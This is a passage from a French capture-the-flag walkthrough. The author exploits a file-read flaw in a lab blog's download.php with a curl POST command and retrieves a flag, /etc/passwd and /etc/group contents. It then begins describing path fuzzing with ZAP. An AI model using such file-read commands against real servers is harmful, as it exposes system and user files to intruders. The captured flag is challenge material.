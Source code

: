 Si on passe la variable *image* en paramètre, même résultat. Il faut donc envoyer le paramètre par POST (en gros via formulaire pour les non-initiés).  

Avec la commande suivante on peut donc récupérer le flag présent dans le dossier personnel de Kevin :  

```bash
curl -X POST https://192.168.2.2:15020/blog/download.php --data "image=/home/kevin/flag.txt" -k
```

**Croatia: e4d49769b40647eddda2fe3041b9564c**  

J'en profite pour récupérer le fichier /etc/passwd dont voici un extrait :  

```plain
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
kevin:x:1001:1001::/home/kevin:
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```

En dehors de kevin les deux autres utilisateurs n'ont pas de shell définit. On a aussi un path pour le serveur jabber au cas où.  

Et on remarque via */etc/group* que *teo* est le seul utilisateur intéressant :  

```plain
cdrom:x:24:teo
floppy:x:25:teo
audio:x:29:teo
dip:x:30:teo
video:x:44:teo
plugdev:x:46:teo
netdev:x:108:teo
teo:x:1000:
```

Philippines
-----------

J'ai décidé de fouiller du côté de la configuration *Apache*. Au lieu d'écrire un n-ième script Python j'ai choisi d'utiliser *ZAP* en faisant d'abord transiter une requête bidon via le proxy intercepteur qui nous servira de template pour un fuzzing via dictionnaire.  

Dans *ZAP* on fait un click-droit sur la requête puis *Attaquer* puis *Générer du bruit*. On sélectionne ensuite la valeur bidon de la requête initiale et on la définie comme zone de fuzzing.  

Il faut ensuite sélectionner un dictionnaire contenant des paths de fichiers intéressants (j'en ai un perso mais ça peut se trouver sur le web).  
